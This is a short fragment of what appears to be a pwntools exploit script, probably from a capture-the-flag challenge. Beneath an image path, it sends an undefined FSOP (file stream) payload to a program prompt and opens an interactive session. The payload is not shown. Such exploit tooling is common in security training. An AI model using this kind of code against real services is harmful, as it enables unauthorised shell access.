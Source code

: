 ```python
    payload = FSOP

    p.sendlineafter(b"> ", payload)
    p.interactive()
    return
``` 

